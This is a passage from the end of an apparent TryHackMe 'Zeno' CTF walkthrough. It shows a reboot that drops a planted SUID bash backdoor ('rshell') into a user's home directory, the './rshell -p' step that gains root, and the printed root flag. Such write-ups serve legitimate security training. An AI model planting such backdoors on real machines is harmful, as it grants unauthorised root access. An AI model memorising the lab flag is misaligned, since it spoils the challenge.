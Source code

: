 Now we reboot the machine with sudo:

~~~
[edward@zeno ~]$ sudo /usr/sbin/reboot
~~~

Give the machine some time to fully configure again, and connect to it. As you can see, the backdoor is in our home directory now. Just run `./rshell -p` and you are root:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Zeno]
└─$ ssh edward@$IP
edward@10.10.46.147's password: 
Last login: Mon Nov  8 11:58:11 2021 from ip-10-9-1-171.eu-west-1.compute.internal
[edward@zeno ~]$ ls -la
total 964
drwxr-xr-x. 3 root root      141 Nov  8 12:03 .
drwxr-xr-x. 3 root root       20 Jul 26 21:55 ..
lrwxrwxrwx. 1 root root        9 Jul 26 22:16 .bash_history -> /dev/null
-rw-r--r--. 1 root root       18 Apr  1  2020 .bash_logout
-rw-r--r--. 1 root root      193 Apr  1  2020 .bash_profile
-rw-r--r--. 1 root root      231 Apr  1  2020 .bashrc
-rwsr-sr-x. 1 root root   964536 Nov  8 12:03 rshell
drwxr-xr-x. 2 root root       29 Sep 21 22:24 .ssh
-rw-r-----. 1 root edward     38 Jul 26 21:13 user.txt
-rw-------. 1 root root      699 Jul 26 22:15 .viminfo
[edward@zeno ~]$ ./rshell -p
rshell-4.2# id
uid=1000(edward) gid=1000(edward) euid=0(root) egid=0(root) groups=0(root),1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
~~~

## Root flag

Now head to `/root` and read the root flag:

~~~
rshell-4.2# cd /root
rshell-4.2# ls
anaconda-ks.cfg  bash_history  root.txt  zeno-monitoring.log  zeno-monitoring.py
rshell-4.2# cat root.txt 
THM{b187ce4b85232599ca72708ebde71791}
~~~

Root flag: `THM{b187ce4b85232599ca72708ebde71791}`

# D0N3! ; )

Thanks to the creator(s).

Hope you had fun and learned something.

Have a g00d one! : )
